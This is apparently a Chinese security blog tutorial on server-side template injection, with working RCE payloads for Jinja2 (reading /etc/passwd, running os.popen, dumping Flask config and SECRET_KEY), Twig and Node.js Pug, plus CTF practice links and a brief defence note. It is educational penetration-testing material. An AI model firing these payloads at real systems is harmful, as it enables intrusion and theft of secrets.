


# [SSTI (Server Side Template Injection)](https://www.raingray.com/archives/4183.html)

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [简介](#%E7%AE%80%E4%BB%8B)
-   [利用](#%E5%88%A9%E7%94%A8)
    -   [Python Jinja2](#Python+Jinja2)
        -   [subprocess.Popen 执行命令](#subprocess.Popen+%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)
        -   [读取 Flask 配置](#%E8%AF%BB%E5%8F%96+Flask+%E9%85%8D%E7%BD%AE)
        -   [self 对象获取](#self+%E5%AF%B9%E8%B1%A1%E8%8E%B7%E5%8F%96)
        -   [其他 Payload](#%E5%85%B6%E4%BB%96+Payload)
    -   [PHP Twig (1.9.0)](#PHP+Twig+%281.9.0%29)
    -   [Node.js Pug](#Node.js+Pug)
-   [靶场练习](#%E9%9D%B6%E5%9C%BA%E7%BB%83%E4%B9%A0)
    -   [BUUCTF](#BUUCTF)
    -   [Web Security Academy](#Web+Security+Academy)
-   [防御](#%E9%98%B2%E5%BE%A1)
-   [参考链接](#%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5)

## 简介

[Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) 2015 年由 [James Kettle](https://twitter.com/albinowax) 在 Black Hat 提出完整利用链 SSTI 至此普及开来。说到后端模板与之对应的还有前端模板（CSTI），就是各种前端框架模板，一般危害就是执行 JS 代码。本文旨在简略记录后端模板基本原理不涉及前端模板内容。

**模板是什么？**

了解模板之前先看原来开发模式和模板开发有什么区别，最早开发是前后端都揉在一起，不管你在哪里要用到这 HTML 显示数据都需要重写一遍。

```php
<h1><?php echo name ?></h1>
```

有了模板就可以先写好前端样式后面在填充数据，写好的前端可以被重复使用。

模板原理是往里 HTML 填充数据，最后通过模板引擎把前端和数据组装在一起返回。

```plaintext
<h1>{{ name }}</h1>
```

模板引擎将输入的 name 变量最终替换为完整 HTML。

```xml
<h1>raingray</h1>
```

**啥是模板注入？**

用户输入的内容被放入模板渲染。这个内容通常是表达式，如 `{{ eval('cat /etc/passwd') }}`，渲染后表达式被执行。

```plaintext
<h1>root:x:0:0:root/root:/bin/bash......</h1>
```

**模板注入的危害是什么？**

通常可以调各个库来执行命令造成 RCE，能查当前对象的信息可能会返回 Secret 等模板信息，造成敏感信息泄露，再不济也是个 XSS。

说白了就是你能调语言啥库，能执行命令就 RCE，能读取文件就 LFI。

**咋找注入点？**

任何输入的内容被应用结合模板输出的地方都可以试，如模板大多支持写入 HTML，有 HTML 注入的地方要联想到可能存在模板注入，所以要随手尝试闭合 `}}<h1>raingray</h1>{{`。

通常会在功能点 Fuzz 模板需要用到的特殊字符 `${{<%[%'"}}%`，如果报错就可能存在。

**咋判断 App 用的那款模板？**

BurpSuite 官方给出一个判断逻辑，执行蓝色方块表达式，绿色箭头代表表达式成功执行，红色箭头代表走不通。如 `{{7*'7'}}` Jinja2 返回 7777777，Twig 返回 49，当没有结果时则漏洞不存在。



图片来自 https://portswigger.net/research/server-side-template-injection

## 利用

利用思路是阅读模板官方文档关键点：

1.  基本语法。知道怎么用。
2.  安全建议。了解常见风险点。
3.  内部变量。类似于 Java Reflection，或 Python Magic Method/[Special Attributes](https://docs.python.org/3/library/stdtypes.html#special-attributes)，通过当前对象快速获取其他对象并调用利用。

### Python Jinja2

#### subprocess.Popen 执行命令

[jinja2](https://jinja.palletsprojects.com/en/3.0.x/api/#jinja2.Environment) 语法：

-   `` block 结束
    
-   `{{` print statement 开始
    
    `}}` print statement 结束
    
-   `{#` comment 开始
    
    `#}` comment 结束
    

确认表达式被应用执行，内容返回七个字符串 7，或者返回 49。

```plaintext
{{'7'*7}}
{{7*7}}
```

**获取 object 类**

使用 `''.__class__` 属性获取 str 类实例，将返回 `<class 'str'>`。也可以使用其他基础数据类型，如 `[]`、`{}`。

```plaintext
{{ ''.__class__ }}
```

`__mro__`（[Method Resolution Order](https://data-flair.training/blogs/python-multiple-inheritance/)）属性返回一个包含基类元组 `(<class 'str'>, <class 'object'>)`，告诉你调用属性、方法时按照元组中的顺序查找。和 `__mro__` 一致的方法还有 `mro()` 作用一致只是返回数据类型是列表。

```plaintext
{{''.__class__.__mro__}}
```

`__base__` 和 `__bases__` 都能获得继承的第一个基类 object，只是 `__bases__` 返回元组，另一个区别是在 Python2 里是获取字符串类 str 基类返回是 `<type 'basestring'>`。

```plaintext
{{''.__class__.__bases__}}
{{''.__class__.__base__}}
```

获取基类是要得到 object，它是所有类的基类可以通过它得到 Python 中任何类的信息。通过更改索引 `''.__class__.__mro__[index]` 区选返回哪个索引内容，如 `''.__class__.__mro__[1]` 将返回 `<class 'object'>`。

**获取 object 子类**

拿到 object 后用 `__subclasses__()` 方法返回包含子类的列表。

```plaintext
{{''.__class__.mro()[1].__subclasses__()}} 
```



手动替换换行。


找到 `<class 'subprocess.Popen'>`，确定索引是 233。


既然通过索引能获取到 `subprocess.Popen` 类，通过 `()` 执行构造方法，传递要执行的命令。命令执行完 `communicate()` 读取 stdout 和 stderr 数据组成元组 `(stdout_data, stderr_data)` 返回。

```plaintext
{{''.__class__.mro()[1].__subclasses__()[233]("cat /etc/passwd", shell=True, stdout=-1).communicate()[0]}} 
{{''.__class__.mro()[1].__subclasses__()[233](['cat', "/etc/passwd"], stdout=-1).communicate()[0]}}
```

[subprocess.Popen 构造方法参数](https://docs.python.org/3/library/subprocess.html#popen-constructor)为什么这样写？下面解读下。

*args* 默认读取列表，命令以空格作为分隔符，比如 `cat /etc/passwd /etc/shadow`，就要写成 `['cat', '/etc/passwd', '/etc/shadow']`。

*shell* 使用 `shell=True` 可直接在引号内写命令。Linux 下默认使用 /bin/sh 执行命令，Windows 怎么执行不太清楚。

```plaintext
Popen(['/bin/sh', '-c', 'cat /etc/passwd'])
```

*stdout* 具体为什么用 -1 暂时无法得知，不用就无法输出数据。

#### 读取 Flask 配置

如果无法读取文件尝试看看能不能获取 Flask 配置信息

```plaintext
{{config}}
{{self.__dict__}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

重点关注配置中 SECRET\_KEY 项。

```plaintext
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'SESSION_REFRESH_EACH_REQUEST': True, 'LOGGER_HANDLER_POLICY': 'always', 'LOGGER_NAME': 'app', 'DEBUG': False, 'SECRET_KEY': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
```

#### self 对象获取

#### 其他 Payload

`{{[].__class__.__base__.__subclasses__()}}`

```plaintext
>>> import jinja2
>>> jinja2.Template("{{ [].__class__.__base__.__subclasses__() }}").render()
"[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_rever......
```

[https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

执行命令并输出在模板中。

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

能够获取 os 库的 Payload。

```plaintext
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

### PHP Twig (1.9.0)

Payload。

```plaintext
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```

### Node.js Pug

通过 NodeJS 全局对象 global，查找 require 导入 child\_process.exec 执行命令。

```javascript
global.require('child_process').exec('calc')
```

14.0.0 之前版本 [mainModule](http://nodejs.cn/api/process/process_mainmodule.html) 还没被移除有以下方法可以使用。

```javascript
global.process.mainModule.require('child_process').exec('calc')
global.process.mainModule.constructor._load('child_process').exec('calc')
```

## 靶场练习

### BUUCTF

-   [https://buuoj.cn/challenges#\[CSCCTF%202019%20Qual\]FlaskLight](https://buuoj.cn/challenges#[CSCCTF%202019%20Qual]FlaskLight)
-   [https://buuoj.cn/challenges#\[HFCTF%202021%20Final\]easyflask](https://buuoj.cn/challenges#[HFCTF%202021%20Final]easyflask)
-   [https://buuoj.cn/challenges#\[pasecactf\_2019\]flask\_ssti](https://buuoj.cn/challenges#[pasecactf_2019]flask_ssti)
-   [https://buuoj.cn/challenges#\[Flask\]SSTI](https://buuoj.cn/challenges#[Flask]SSTI)
-   [https://buuoj.cn/challenges#\[%E7%AC%AC%E4%B8%89%E7%AB%A0%20web%E8%BF%9B%E9%98%B6\]SSTI](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%89%E7%AB%A0%20web%E8%BF%9B%E9%98%B6]SSTI)

### Web Security Academy

-   [PortSwigger Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)

## 防御

参考各个模板文档正确转义输出语句。

## 参考链接

-   [PayloadsAllTheThings/Server Side Template Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
    
    [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)，包揽市面上常见模板利用 Payload，做项目时可以照着一把梭。
    
-   [Python vulnerabilities : Code execution in jinja templates](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)
    
-   [How to Execute Shell Commands with Python](https://janakiev.com/blog/python-shell-commands/)
    

最近更新：2023 年 09 月 14 日 15:41:47

发布时间：2022 年 05 月 05 日 22:43:00
